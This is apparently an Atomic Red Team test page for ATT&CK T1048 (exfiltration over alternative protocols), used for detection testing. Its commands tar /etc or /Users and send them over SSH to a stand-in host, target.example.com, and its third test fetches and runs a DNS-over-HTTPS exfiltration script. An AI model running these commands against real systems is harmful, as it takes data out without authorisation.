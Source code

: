 # T1048 - Exfiltration Over Alternative Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048)
<blockquote>Adversaries may steal data by exfiltrating it over a different protocol than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.  

Alternate protocols include FTP, SMTP, HTTP/S, DNS, SMB, or any other network protocol not being used as the main command and control channel. Different protocol channels could also include Web services such as cloud storage. Adversaries may also opt to encrypt and/or obfuscate these alternate channels. 

[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048) can be done using various common operating system utilities such as [Net](https://attack.mitre.org/software/S0039)/SMB or FTP.(Citation: Palo Alto OilRig Oct 2016) On macOS and Linux <code>curl</code> may be used to invoke protocols such as HTTP/S or FTP/S to exfiltrate data from a system.(Citation: 20 macOS Common Tools and Techniques) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - DNSExfiltration (doh)](#atomic-test-3---dnsexfiltration-doh)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Remote to Local

Upon successful execution, sh will spawn ssh contacting a remote domain (default: target.example.com) writing a tar.gz file.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** f6786cc8-beda-4915-a4d6-ac2f193bb988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/* directory and password protect the file modification of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7c3cb337-35ae-4d06-bf03-3032ed2ec268





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```






<br/>
<br/>

## Atomic Test #3 - DNSExfiltration (doh)
DNSExfiltrator allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.
!!! Test will fail without a domain under your control with A record and NS record !!! 
See this github page for more details - https://github.com/Arno0x/DNSExfiltrator

**Supported Platforms:** Windows


**auto_generated_guid:** c943d285-ada3-45ca-b3aa-7cd6500c6a48





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password used to encrypt the data to be exfiltrated | string | atomic|
| domain | The domain name to use for DNS requests | string | target.example.com|
| ps_module | DNSExfiltrator powershell ps_module | path | $env:Temp&#92;dnsexfil.ps1|
| doh | Google or CloudFlare DoH (DNS over HTTP) server | string | google|
| time | The time in milliseconds to wait between each DNS request | string | 500|
| encoding | Set to '-b32' to use base32 encoding of data. Might be required by some DNS resolvers. | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module #{ps_module}
Invoke-DNSExfiltrator -i #{ps_module} -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
```




#### Dependencies:  Run with `powershell`!
##### Description: DNSExfiltrator powershell file must exist on disk at specified location (#{ps_module})
##### Check Prereq Commands:
```powershell
if (Test-Path #{ps_module}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
IWR "https://raw.githubusercontent.com/Arno0x/DNSExfiltrator/8faa972408b0384416fffd5b4d42a7aa00526ca8/Invoke-DNSExfiltrator.ps1" -OutFile #{ps_module}
```




<br/>
